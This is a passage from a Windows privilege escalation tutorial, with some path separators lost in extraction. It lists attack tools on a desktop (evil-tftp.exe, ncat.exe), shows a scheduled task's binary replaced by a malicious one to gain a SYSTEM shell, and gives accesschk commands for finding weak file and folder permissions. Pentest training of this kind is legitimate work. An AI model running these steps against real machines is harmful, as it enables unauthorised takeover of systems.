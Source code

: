     C:Usersuser1Desktop> dir

     Volume in drive C has no label.
     Volume Serial Number is 948D-A98F

     Directory of C:Usersuser1Desktop

    02/19/2014  01:36 AM    <DIR>          .
    02/19/2014  01:36 AM    <DIR>          ..
    04/22/2013  09:39 AM           331,888 accesschk.exe
    02/19/2014  01:31 AM            73,802 evil-tftp.exe
    01/25/2014  12:46 AM            36,864 fubar.exe
    01/22/2014  08:17 AM    <DIR>          incognito2
    06/30/2011  01:52 PM         1,667,584 ncat.exe
    02/18/2014  12:38 PM            14,336 wlbsctrl.dll
    11/22/2013  07:39 PM             1,225 wmic_info.bat
                   6 File(s)      2,125,699 bytes
                   3 Dir(s)      75,341,824 bytes free

    C:Usersuser1Desktop> copy evil-tftp.exe E:GrabLogstftp.exe

    Overwrite E:GrabLogstftp.exe? (Yes/No/All): Yes
            1 file(s) copied.

To demonstrate this privilege escalation in action I fast-forwarded the system time. From the screenshot below you we can see that we are presented with our SYSTEM shell promptly at 9AM.

[ ![][37] ][38]

Schtasks Shell (LogGrabberTFTP)

These two examples should give you an idea about the kind of vulnerabilities we need to look for when considering file/folder permissions. You will need to take time to examine ALL the binpaths for the windows services, scheduled tasks and startup tasks.

As we have been able to see accesschk is the tool of choice here. Before finishing off I'd like to give you a few final pointers on using accesschk.

    **# When executing any of the sysinternals tools for the first time the user will be presented with a GUI
    pop-up to accept the EULA. This is obviously a big problem, however we can add an extra command line flag
    to automatically accept the EULA.**

    accesschk.exe /accepteula ... ... ...

    **# Find all weak folder permissions per drive.**
    accesschk.exe -uwdqs Users c:
    accesschk.exe -uwdqs "Authenticated Users" c:

    **# Find all weak file permissions per drive.**
    accesschk.exe -uwqs Users c:*.*
    accesschk.exe -uwqs "Authenticated Users" c:*.*

## Final Thoughts

This guide is meant to be a "fundamentals" for Windows privilege escalation. If you want to truly master the subject you will need to put in a lot of work and research. As with all aspects of pentesting, enumeration is key, the more you know about the target the more avenues of attack you have the higher the rate of success.

Also keep in mind that you may sometimes end up elevating your privileges to Administrator. Escalating privileges from Administrator to SYSTEM is a non-issue, you can always reconfigure a service or create a scheduled task with SYSTEM level privileges.

Now go forth and pop SYSTEM!!
